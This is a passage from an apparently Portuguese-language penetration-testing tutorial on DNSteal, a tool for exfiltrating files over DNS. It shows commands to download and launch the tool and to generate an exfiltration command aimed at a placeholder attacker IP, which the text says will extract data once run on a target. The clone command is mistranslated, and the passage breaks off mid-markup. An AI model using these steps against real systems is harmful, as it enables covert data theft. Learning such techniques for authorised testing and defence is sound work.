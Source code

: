 Baixe o DNSteal usando o seguinte comando:

```zsh
clone do git https://github.com/m57/dnsteal
```

E para iniciar a ferramenta e ver todos os parâmetros que ela fornece, use o seguinte comando:

```zsh
python dnsteal.py
```

<p align="center">
  <img src="Imagens/2024-12-17_15-14.png" >
 <br>
  Figura 1: Ferramenta DNSteal em Execução.
</p>

Agora, geraremos um comando usando DNSteal; o comando dito extrairá os dados desejados após a execução no sistema de destino. Para gerar o comando, informe seu IP local e use o parâmetro -z. Este parâmetro -z descompactará os arquivos após o recebimento, pois eles são compactados por padrão. Portanto, digite:

```zsh
python dnsteal.py [IP-DO-ATACANTE] -z
```

<p align="center">